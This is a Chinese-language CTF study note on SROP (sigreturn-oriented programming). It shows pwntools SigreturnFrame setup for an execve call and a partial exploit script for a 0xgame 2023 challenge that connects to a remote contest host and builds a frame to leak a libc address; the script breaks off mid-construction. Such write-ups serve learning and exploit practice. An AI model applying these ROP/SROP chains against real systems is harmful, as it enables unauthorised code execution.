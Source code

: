 ## SROP

srop是我研究了有个两三天的东西，因为最近很忙，所以一直没有进行全身心的投入。

但是研究下来发现，这个东西的主要重点其实就是在对`sigreturn` 这一个系统调用的使用上，它虽然原理很复杂，但是实际上也就是对syscall的使用。

具体使用上，pwntools集成了对于Srop的调用

```python
frame = SigreturnFrame()
frame.rdi = 59        # exec的系统调用 这里是由于汇编代码之前进行了mov rdi,rax的调用所以才这么写
frame.rsi = bss - 0x30
frame.rdx = 0
frame.rcx = 0
frame.rsp = bss + 0x38
frame.rip = syscall
```

```bash
cat /usr/include/asm/unistd_64.h
```

有一道来自0xgame 2023的例题可以表示一下SROP的用法

![Untitled](Stack%2095229ecbb2f1486a9533db3b1ce3a54d/Untitled%203.png)

```jsx
from pwn import *
from LibcSearcher import *

debug = 1
gdb_is = 1
# context(arch='i386',os = 'linux', log_level='DEBUG')
context(arch='amd64', os='linux', log_level='DEBUG')

#r = process("./pwn")
r = remote("8.130.35.16",55003)

elf = ELF('./pwn')
libc = ELF('./libc.so.6')
pop_rdi = 0x0401443
pop_rsi_r15 = 0x0401441
ret_addr = 0x40101a

bss_addr = 0x404100
base_addr = bss_addr + 0x8
syscall_addr = elf.sym['syscall']
payload = b'A' * 8 + b'junkjunk'
syscall_got = elf.got['syscall']

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_write = SigreturnFrame()
frame_write.rdi = 1
frame_write.rsi = 1
frame_write.rdx = syscall_got  #泄露libc地址
frame_write.rcx = 0x8
```